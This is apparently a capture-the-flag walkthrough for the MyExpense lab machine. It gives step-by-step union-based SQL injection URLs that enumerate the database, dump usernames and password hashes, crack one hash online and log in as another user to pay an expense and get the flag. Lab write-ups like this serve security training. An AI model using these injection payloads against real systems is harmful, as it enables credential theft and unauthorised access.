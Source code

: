 ![[Pasted image 20230629191218.png]]
____
To retrieve the number of columns, we probe.
```URL
(this returns error)
http://192.168.200.131/site.php?id=2 order by 3-- -
(this doesn't return error)
http://192.168.200.131/site.php?id=2 order by 2-- -
```
____
Also, we can do.
```URL
http://191.168.200.131/site.php?id=2 union select 1,2-- -
```
![[Pasted image 20230629192748.png]]
____
Now, we could obtain a lot of information into database by using the following queries.
- To see database names.
```URL
http://192.168.200.131/site.php?id=2 union select 1,schema_name from information_schema.schemata-- -
```
____
- To see tables of *myexpense* database.
```URL
http://192.168.200.131/site.php?id=2 union select 1,table_name from information_schema.tables where table_schema='myexpense'-- -
```
____
- To see columns of *user* table of *myexpense* database.
```URL
http://192.168.200.131/site.php?id=2 union select 1,column_name from information_schema.columns where table_schema='myexpense' and table_name='user'-- -
```
____
- To see users and passwords concatenated (assuming that *myexpense* database is used).
```URL
http://192.168.200.131/site.php?id=2 union select 1,group_concat(username, 0x3a, password) from user-- -
```
____
Now, with all credentials retrieved, we can crack all of them, but our focuss is in **Paul Baudouin** user.
![[Pasted image 20230629194838.png]]
____
Let's use this [Hashes](https://hashes.com/en/decrypt/hash) web to crack this hash: **64202ddd5fdea4cc5c2f856efef36e1a**.
![[Pasted image 20230629195241.png]]
His password is: **HackMe** 😵.
____
Let's log in with **Paul Baudouin** account and pay our expense.
![[Pasted image 20230629195557.png]]
____
Now, we can retrieve the *FLAG* by loggin in with *samuel* account.
![[Pasted image 20230629195745.png]]
____